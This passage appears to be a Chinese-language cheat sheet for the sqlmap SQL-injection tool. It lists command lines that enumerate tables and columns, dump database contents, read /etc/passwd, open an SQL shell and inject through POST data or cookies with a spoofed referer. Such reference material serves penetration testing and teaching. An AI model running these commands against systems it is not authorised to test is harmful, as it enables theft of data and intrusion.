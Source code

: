 python sqlmap.py -u "url" --tables -D "information_scheam"

-D:指定数据名称

7)--columns 列出表中的列名

python sqlmap.py -u "url" --columns -T "user" -D "mysql" -v 1

-T:指定表名，-D:指定库名

8)--dump列表中指定列的内容

python sqlmap.py -u "url" --dump -T "users" -D "testdb"

-C:可以指定字段

指定列的范围为2到4

python sqlmap.py -u "url" --dump -T "users" -D "testdb" --start 2 --stop 4 -v 0

9)--dumap-all列出所有数据库，所有表内容

python sqlmap.py -u "url" --dump-all -v 0

只列出用户自己新建的数据库和表的内容

python sqlmap.py -u "url" --dump-all --exclude-sysdbs -v 0

10)--file读取文件内容[load_file()函数]

python sqlmap.py -u "url" --file /etc/password

11)执行SQL

python sqlmap.py -u "url" --sql-shell

12)-p 指定参数

python sqlmap.py -u "url" -v 1 -p "id"

-p可以指定多参数-p "cat,id"

13)POST提交

python sqlmap.py -u "url" --method POST --data "id=1"

14)COOKIE提交

python sqlmap.py -u "url" --cookie "id=1" -v 1

cookie值可以由TamperData抓取

15)refer欺骗

python sqlmap.py -u "url" --refer "url" -v 3

16)使用自定义user-agent或者user-agents.txt

python sqlmap.py -u "url" --user-agent "Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" -v 3

python sqlmap.py -u "url" -v 1 -a "./txt/user-agents.txt"

17)使用多线程猜解

python sqlmap.py -u "url" -v 1 --current-user --threads 3
